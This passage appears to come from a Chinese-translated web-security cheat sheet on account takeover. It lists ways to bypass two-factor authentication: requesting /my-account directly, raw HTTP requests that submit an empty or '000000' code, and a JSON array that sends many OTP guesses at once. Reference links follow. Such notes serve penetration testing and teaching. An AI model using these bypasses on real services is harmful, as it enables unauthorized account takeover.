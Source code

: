 If the application redirects to `/my-account` url upon login while 2Fa is disabled, try replacing `/2fa/verify` with `/my-account` while 2FA is enabled to bypass verification.

假设在无双因子认证的情况下应用程序在登录时跳转到`/my-account`，开启双因子认证时会跳转到`/2fa/verify`，尝试通过Burp或浏览器直接访问`/my-account`目录。

### 使用空验证码或000000验证码绕过双因子认证

空验证码
```
POST /2fa/verify HTTP/1.1
Host: test.com
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

code=
```
000000
```
POST /2fa/verify HTTP/1.1
Host: test.com
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

code=000000
```

### 使用数组方式一次提交多个验证码进行爆破

```json
{
    "otp":[
        "1234",
        "1111",
        "1337", // 正确的验证码
        "2222",
        "3333",
        "4444",
        "5555"
    ]
}
```


## 参考

- [10 种重置密码的方式 - Anugrah SR](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
- [$6,5k + $5k HTTP 请求走私漏洞导致大量账户接管 - Slack + Zomato](https://www.youtube.com/watch?v=gzM4wWA7RFo&feature=youtu.be)
- [Broken Cryptography & Account Takeovers - Harsh Bothra - September 20, 2020](https://speakerdeck.com/harshbothra/broken-cryptography-and-account-takeovers?slide=28)
- [Hacking Grindr Accounts with Copy and Paste - Troy HUNT & Wassime BOUIMADAGHENE - 03 OCTOBER 2020](https://www.troyhunt.com/hacking-grindr-accounts-with-copy-and-paste/)
- [CTFd Account Takeover](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)
- [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
